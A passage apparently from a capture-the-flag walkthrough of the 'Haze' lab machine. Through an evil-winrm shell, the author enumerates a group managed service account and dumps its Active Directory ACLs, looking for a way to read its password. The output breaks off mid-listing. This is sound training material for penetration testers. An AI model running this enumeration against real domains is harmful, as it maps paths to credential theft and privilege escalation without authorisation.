 There’s one. The `ObjectClass` says it’s a gMSA account. I’ll look at what users can read the password:

```

evil-winrm-py PS C:\> Get-ADServiceAccount Haze-IT-Backup -Property PrincipalsAllowedToRetrieveManagedPassword

DistinguishedName                          : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Enabled                                    : True
Name                                       : Haze-IT-Backup
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 66f8d593-2f0b-4a56-95b4-01b326c7a780
PrincipalsAllowedToRetrieveManagedPassword : {CN=Domain Admins,CN=Users,DC=haze,DC=htb}
SamAccountName                             : Haze-IT-Backup$
SID                                        : S-1-5-21-323145914-28650650-2368316563-1111
UserPrincipalName                          : 

```

It shows only Domain Admins group.

I’ll take a closer look at the ACLs for Haze-IT-Backup$:

```

evil-winrm-py PS C:\> $backupuser = Get-ADServiceAccount Haze-IT-Backup
evil-winrm-py PS C:\> (Get-Acl "AD:\$($backupuser.DistinguishedName)").Access

ActiveDirectoryRights : ExtendedRight
InheritanceType       : None
ObjectType            : 00299570-246d-11d0-a768-00aa006e0529
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Deny
IdentityReference     : Everyone
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : ReadProperty
InheritanceType       : All
ObjectType            : 0e78295a-c6d3-0a40-b491-d62251ffa0a6
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Deny
IdentityReference     : HAZE\paul.taylor
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

ActiveDirectoryRights : ReadProperty
InheritanceType       : All
ObjectType            : e362ed86-b728-0842-b27d-2dea7a9df218
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Deny
IdentityReference     : HAZE\paul.taylor
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

ActiveDirectoryRights : ReadProperty
InheritanceType       : All
ObjectType            : f8758ef7-ac76-8843-a2ee-a26b4dcaf409
```